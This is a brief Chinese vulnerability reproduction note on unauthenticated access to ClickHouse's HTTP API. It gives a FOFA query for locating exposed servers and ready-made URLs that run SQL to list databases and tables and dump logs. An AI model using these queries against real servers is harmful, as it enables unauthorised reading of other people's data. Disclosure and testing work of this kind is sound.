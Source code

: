 # ClickHouse API 数据库接口未授权访问漏洞

## 漏洞描述

ClickHouse API 数据库接口存在未授权访问漏洞，攻击者通过漏洞可以执行任意SQL命令获取数据库数据

## 漏洞影响

```
ClickHouse
```

## FOFA

```
"ClickHouse" && body="ok"
```

## 漏洞复现

登录页面

![img](./images/202202091258079.png)

执行SQL语句

![img](./images/202202091258245.png)

```
http://your-ip:8123/?query=SELECT%20*%20FROM%20system.query_thread_log%20LIMIT%201%20FORMAT%20Vertical
```

![img](images/202202091258274-16898396122771.png)

其他的SQL语句：

```
http://your-ip:8123/?query=SHOW%20DATABASES
```

```
http://your-ip:8123/?query=SELECT%20*%20FROM%20system.tables
```

